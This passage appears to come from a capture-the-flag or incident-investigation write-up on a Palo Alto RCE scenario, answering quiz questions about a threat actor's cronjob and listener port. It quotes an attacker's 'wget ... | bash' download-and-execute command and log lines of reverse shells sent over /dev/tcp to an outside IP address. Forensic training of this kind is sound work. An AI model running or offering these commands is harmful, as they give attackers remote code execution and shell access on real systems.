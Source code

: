 ![Q3 Answer](/img/cd/blueyard/paloaltorce/q3_answer.png)

{% include item.html type="answer" id="3" description=page.question_3 answer="wget -qO- http://54.162.164.22/update | bash" %}

## Question 4
{% include item.html type="question" id="4" question=page.question_4 %}

Going back to the events we had in question 1, we need to find the first port - this has obviously happened before the threat actor was able to configure the cronjob.

We can then filter out the actions and commands into three possible scenarios, based on the attempted commands.
According to the blogpost, telemetry events will be executing commands in hourly or by minute - so the expectation is that the threat actors command is executed within 1 hour.

`8080`, `13337` or `1337`


{% highlight terminal %}
2024-04-26T04:49:36.9198454-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:49:36.9198454-07:00 whoami >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:56:03.769869426-07:00 ls >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:56:03.769869426-07:00 ls >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:59:28.523933096-07:00 bash -i >& /dev/tcp/54.162.164.22/8080 0>&1
2024-04-26T04:59:28.523933096-07:00 bash -i >& /dev/tcp/54.162.164.22/8080 0>&1
{% endhighlight %}

{% highlight terminal %}
2024-04-26T05:01:23.890861508-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:01:23.890861508-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:04:25.485975248-07:00 ls >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:04:25.485975248-07:00 ls >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:12:45.710458616-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:12:45.710458616-07:00 whoami >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:42:35.868634796-07:00 bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
2024-04-26T05:42:35.868634796-07:00 bash -i >& /dev/tcp/54.162.164.22/13337 0>&1
{% endhighlight %}
